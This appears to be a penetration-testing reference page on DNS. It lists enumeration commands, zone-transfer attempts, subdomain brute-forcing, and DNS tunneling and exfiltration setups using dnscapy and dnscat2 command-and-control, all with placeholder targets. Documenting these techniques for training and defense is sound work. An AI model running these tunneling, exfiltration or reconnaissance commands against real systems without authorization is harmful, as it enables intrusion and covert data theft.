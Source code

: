 ```yaml
---
authors: ShutdownRepo, Tednoob17
---
```


# 🛠️ DNS

## Theory

The Domain Name System (DNS) is a fundamental protocol of the Internet that translates human-readable domain names into IP addresses. It functions as a distributed database system that enables computers to resolve domain names to the corresponding network addresses required for network communication.

DNS operates on port 53 by default and uses both TCP and UDP protocols. The system is hierarchical, with root servers at the top, followed by Top-Level Domain (TLD) servers, and authoritative name servers for specific domains.

## Practice

### Enumeration

DNS enumeration involves gathering information about a domain's DNS infrastructure. This can be accomplished through various methods and tools.

#### DNS Queries

:::tabs

=== dig
The dig utility performs DNS lookups and displays responses from name servers.

```bash
# Query A records (IP addresses)
dig thehacker.recipes A

# Query name server records
dig thehacker.recipes NS

# Trace DNS resolution path
dig thehacker.recipes +trace
```

=== nslookup
nslookup provides DNS query functionality and debugging capabilities.

```bash
# Standard DNS query
nslookup thehacker.recipes

# Query mail exchange records
nslookup -type=MX thehacker.recipes

# Query specific DNS server
nslookup thehacker.recipes $DNS_IP
```

=== host
host performs DNS lookups with a simplified interface.

```bash
# Basic DNS query
host thehacker.recipes

# Query mail exchange records
host -t MX thehacker.recipes

# Reverse DNS lookup
host $IP_ADDRESS
```

=== whois
whois retrieves registration information for domains.

```bash
# Domain registration lookup
whois thehacker.recipes
```
:::

#### Zone Transfers
Zone transfers (AXFR requests) are a DNS protocol feature that allows a secondary DNS server to receive all DNS records from a primary DNS server. While legitimate for DNS replication, misconfigured servers allowing unauthorized zone transfers can expose complete domain information to potential attackers.

Common signs of misconfiguration include:
- Allowing zone transfers from any source IP
- Missing ACLs for AXFR requests
- Exposed internal DNS records

```bash
# Basic zone transfer attempt
dig axfr @$DNS_IP $DOMAIN

# Zone transfer specifying name server
dig axfr $DOMAIN @ns1.$DOMAIN

# Using host command for zone transfer
host -t axfr $DOMAIN $DNS_IP

# Alternative using fierce for zone transfers
fierce --domain $DOMAIN --dns-servers $DNS_IP
```

> [!NOTE]
> Modern DNS servers typically restrict zone transfers by default. Success usually indicates a misconfiguration.

#### Subdomain Enumeration
DNSRecon enables comprehensive DNS reconnaissance, including subdomain discovery and record analysis.

```bash
# Basic domain enumeration
dnsrecon -d example.com

# Brute force with wordlist
dnsrecon -d example.com -D $WORDLIST -t std --xml $OUTPUT.xml
```

### Attacks

#### DNS Tunneling
DNS tunneling exploits DNS protocol for data exfiltration or command and control communication. While legitimate uses exist (e.g., software updates), the technique is often employed maliciously.

```bash
# Server configuration
sudo python dnscapy_server.py $DELEGATED_ZONE_NAME $EXTERNAL_IP_ADDR

# Client configuration
ssh -o ProxyCommand="sudo python dnscapy_client.py $DELEGATED_ZONE_NAME $IP_ADDR_OF_CLIENT_DNS" yourlogin@localhost
```

#### DNS Cache Snooping
Cache snooping enables examination of a DNS server's cache to determine recently queried domains.

```bash
# Perform cache snooping
dig @$DNS-SERVER $DOMAIN +norecurse
```

### Post-Exploitation

#### DNS Exfiltration
DNS exfiltration leverages DNS queries to extract data from compromised systems. dnscat2 provides encrypted command-and-control capabilities over DNS.

```bash
# Server setup
dnscat2 --dns server=$DNS_SERVER_IP:53

# Client connection
dnscat2 $DOMAIN
```

## Resources

* [HTB Academy - Information Gathering-Web Edition](https://academy.hackthebox.com/module/144/section/1251)
* [Kali Tools - DNSRecon Documentation](https://www.kali.org/tools/dnsrecon)
* [Common DNS Attack Types](https://bluecatnetworks.com/blog/four-major-dns-attack-types-and-how-to-mitigate-them)
* [DNS Tunneling Techniques](https://www.blackhat.com/presentations/bh-usa-08/Miller/BH_US_08_Ty_Miller_Reverse_DNS_Tunneling_Shellcode.pdf)
